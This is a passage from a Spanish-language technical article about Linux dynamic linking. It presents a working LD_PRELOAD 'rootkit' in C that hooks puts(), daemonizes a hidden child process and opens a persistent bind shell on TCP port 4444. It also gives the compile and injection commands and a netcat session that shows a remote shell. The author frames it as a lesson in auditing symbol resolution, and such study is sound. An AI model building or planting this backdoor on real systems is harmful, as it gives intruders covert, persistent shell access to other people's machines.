#include <netinet/in.h>
#include <sys/types.h>
#include <sys/stat.h>

// El payload: una bind shell que se independiza del proceso padre
void backdoor() {
    int server_fd, client_fd;
    struct sockaddr_in server_addr;
    char *const shell_argv[] = {"/bin/sh", NULL};
    char *const shell_envp[] = {NULL};

    server_fd = socket(AF_INET, SOCK_STREAM, 0);
    if (server_fd < 0) exit(0);

    int opt = 1;
    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR, \&opt, sizeof(opt));

    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(4444);

    if (bind(server_fd, (struct sockaddr *)\&server_addr, sizeof(server_addr)) < 0) exit(0);
    if (listen(server_fd, 1) < 0) exit(0);
    
    client_fd = accept(server_fd, NULL, NULL);
    if (client_fd < 0) exit(0);

    // Redirigimos stdin, stdout y stderr al socket
    dup2(client_fd, 0);
    dup2(client_fd, 1);
    dup2(client_fd, 2);

    execve("/bin/sh", shell_argv, shell_envp);
    exit(0);
}

// Hook de puts: la función que realmente se ejecuta cuando llamas a printf
int puts(const char *str) {
    static int initialized = 0;
    
    if (!initialized) {
        initialized = 1;
        pid_t pid = fork();
        
        if (pid == 0) {
            // Proceso HIJO: se convierte en daemon
            setsid();           // Crea una nueva sesión para no morir con la terminal
            umask(0);           // Resetea permisos de archivos
            close(0); close(1); close(2); // Cierra FD heredados para ser invisible
            
            backdoor();
            exit(0); 
        }
        // El proceso PADRE continúa inmediatamente hacia el return de abajo
    }

    // Buscamos la dirección de la función puts original en la libc
    int (*orig_puts)(const char *str);
    orig_puts = dlsym(RTLD_NEXT, "puts");
    return orig_puts(str);
}
```

Tal como puede evidenciarse redefinimos la función `puts` (que es la implementación que el compilador suele elegir por debajo cuando escribimos un `printf` convencional, tal como vimos anteriormente). Al interceptar esta llamada, el programa original ya no está ejecutando el código de la `libc`, sino el nuestro.

El corazón de este "rootkit" reside en la creación de un proceso independiente. Cuando el programa intenta imprimir su mensaje, nuestra función captura la ejecución y utiliza `fork` para desdoblarse. Mientras el proceso padre continúa su camino normal, el proceso hijo se desprende por completo mediante `setsid`, convirtiéndose en un daemon silencioso que sobrevive incluso si el programa principal o la terminal se cierran. Este hijo "fantasma" limpia sus rastros cerrando los descriptores de entrada y salida, para luego abrir un socket de red que queda escuchando órdenes en el puerto TCP `4444`.

La magia negra se completa con la redirección de flujos. El código utiliza `dup2` para "atar" la entrada y salida de una nueva shell de comandos hacia el socket de red que abrimos. El resultado es una bind shell persistente y totalmente invisible para el usuario. Para mantener el engaño perfecto, nuestra librería busca la dirección real de la función `puts` original en la memoria mediante dlsym y le devuelve el control. Así, el usuario ve su "`Hello world!`" parpadear en la pantalla en milisegundos, sin sospechar jamás que, en ese mismo instante, acaba de dejarle las llaves de su sistema a un proceso que ahora vive refugiado en las profundidades de la memoria RAM.

Para comprobarlo, vamos a compilarlo, nuevamente como Shared Object:

```bash
%: gcc -fPIC -shared -o libhacker.so hacker.c -ldl -lpthread
```

Para que el proceso de compilación no parezca una "caja negra", es importante entender la función de cada flag utilizado en el comando de `gcc`. El uso de `-fPIC` es fundamental porque genera código independiente de la posición, lo cual permite que la librería se cargue en cualquier dirección de memoria sin conflictos, un requisito estricto para los objetos compartidos en Linux. Por otro lado, el flag `-shared` le indica al compilador que el resultado no debe ser un ejecutable estándar con un punto de entrada definido, sino un archivo de tipo Shared Object capaz de ser vinculado dinámicamente por otros procesos en tiempo de ejecución.

En cuanto a las dependencias, el parámetro `-ldl` es el encargado de enlazar la librería de carga dinámica, permitiendo que nuestro código utilice la función dlsym para localizar la ubicación real de las funciones originales dentro de la memoria del sistema. Finalmente, la inclusión de `-lpthrea`d asegura que el binario tenga soporte para hilos de ejecución de POSIX, lo cual garantiza que el manejo de señales y recursos entre el proceso padre y el proceso hijo creado por el `fork` se realice de manera estable y segura dentro del entorno de la librería de C.

Ahora ejecutamos nuestro “Hello World’ o cualquier otro binario de nuestro sistema operativo:

```bash
%: LD_PRELOAD=./libhacker.so ./hello_world
```

Y si abrimos otra terminal, vamos a poder conectarnos

```text
%: $ nc 172.16.100.43 4444
id
uid=1000(tty0) gid=1000(tty0) groups=1000(tty0),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
```

Eso sí, heredando los privilegios del usuario con que ejecutamos el `./hello_world`. Que pasa si no auditamos nuestros sistemas, ni nuestras conexiones y un atacante o usuario malicioso esconde algo asi? La puerta está abierta. 

## **Conclusion**

Después de este recorrido, un simple "Hello world" deja de ser un ejercicio de principiante para revelarse como lo que es: un artefacto complejo que atraviesa el kernel, el dynamic linker y la `libc`. Hemos visto cómo la PLT y la GOT actúan como los verdaderos hilos detrás del telón, resolviendo en tiempo real cada salto de ejecución en un entorno que nunca es estático.

Pero entender esto no es solo un capricho intelectual. Como demostramos con la inyección del proceso "fantasma" vía `LD_PRELOAD`, quien domina el proceso de carga, domina el runtime. En el espacio de usuario, la confianza es una moneda cara; si no auditamos cómo se resuelven nuestros símbolos, estamos delegando la integridad de nuestra ejecución a un tercero. En Linux, la libertad siempre ha dependido de la capacidad de entender el sistema hasta el último bit.

Hoy parece que el sistema es un castillo de naipes, pero es aquí donde el diseño se defiende. El uso de ASLR y la compilación PIE introducen el caos necesario para que, aunque un atacante logre influir en la resolución de símbolos, el mapa de memoria siga siendo un blanco móvil. Es una guerra de posiciones donde la aleatoriedad es nuestra mejor aliada.

Al final del día, nada ocurre por azar. Cada byte tiene un propósito y cada syscall es un contrato. En un mundo que huye despavorido hacia lo abstracto, el verdadero poder reside en los que aún sabemos leer el binario y entender qué ocurre cuando el silicio recibe la primera instrucción. En la próxima entrega, seguiremos bajando niveles. Mientras tanto, recuerda: en el shell todos somos iguales, pero en el kernel, el código es la única ley.

---

[Facu de la Cruz (`tty0`)](https://linkedin.com/in/fmdlc/)
